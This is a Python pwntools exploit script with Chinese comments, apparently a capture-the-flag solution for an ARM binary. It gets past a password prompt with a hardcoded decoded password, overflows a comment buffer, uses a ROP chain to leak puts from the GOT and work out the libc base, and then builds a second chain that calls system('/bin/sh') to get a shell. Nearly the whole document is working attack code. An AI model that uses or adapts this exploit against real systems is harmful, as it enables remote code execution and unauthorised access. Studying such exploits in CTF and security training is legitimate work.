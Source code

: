 ```python
def start():
    if args.LOCAL:
        return process(['./start.sh'])
    return remote(HOST, PORT)

io   = start()
elf  = ELF(BINARY)
libc = ELF(LIBC)

# —— ROP Gadget —— 
pop_all          = 0x10CB0       # pop {r4,r5,r6,r7,r8,sb,sl,pc}
pop_r3_pc        = 0x10464       # pop {r3,pc}
mov_r0_r7_blx_r3 = 0x10CA0       # mov r0,r7; blx r3
entry_addr       = elf.entry     # 0x1050C

# 解密口令（来自二进制自定义换表）
PASSWORD = b's1mpl3Dec0d4r'

# —— 阶段1：泄露 puts 地址 —— 
def leak_puts():
    # 1. 绕过 msg> 口令验证
    io.sendlineafter(b'msg> ', PASSWORD)
    # 2. 构造 ROP 泄露 puts@got
    io.sendlineafter(b'comment> ',
        b'A'*0x2c +
        p32(pop_all) +
          p32(0)*3 +               # r4, r5, r6
          p32(elf.got['puts']) +   # r7 = &puts@got
          p32(0)*3 +               # r8, sb, sl
        p32(pop_r3_pc) +
          p32(elf.plt['puts']) +   # r3 = puts@plt
        p32(mov_r0_r7_blx_r3) +    # blx r3(r0=r7)
        p32(entry_addr)*4         # 返回入口，重走一次
    )
    # 3. 接收泄露
    data = io.recv(4)
    puts_leak = u32(data)
    base = puts_leak - libc.sym['puts']
    log.success(f'leaked puts = {hex(puts_leak)}, libc base = {hex(base)}')
    return base

# —— 阶段2：getshell —— 
def get_shell(libc_base):
    system_addr = libc_base + libc.sym['system']
    binsh       = libc_base + next(libc.search(b'/bin/sh\x00'))

    # 重复认证
    io.sendline(PASSWORD)
    # 构造 ROP 调用 system("/bin/sh")
    io.sendlineafter(b'comment> ',
        b'A'*0x2c +
        p32(pop_all) +
          p32(0)*3 +
          p32(binsh) +            # r7 = "/bin/sh"
          p32(0)*3 +
        p32(pop_r3_pc) +
          p32(system_addr) +      # r3 = system@plt
        p32(mov_r0_r7_blx_r3)     # 调用 system(r0=r7)
    )

if __name__ == '__main__':
    base = leak_puts()
    get_shell(base)
```